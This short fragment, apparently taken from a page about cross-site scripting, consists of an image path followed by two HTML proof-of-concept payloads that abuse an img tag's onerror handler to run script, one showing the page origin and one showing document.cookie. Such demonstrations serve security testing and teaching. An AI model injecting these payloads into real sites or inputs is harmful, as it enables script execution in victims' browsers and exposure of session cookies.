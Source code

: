 ```html
<img src="" onerror=alert(window.origin)>
```
```html
<img src="" onerror=alert(document.cookie)>
```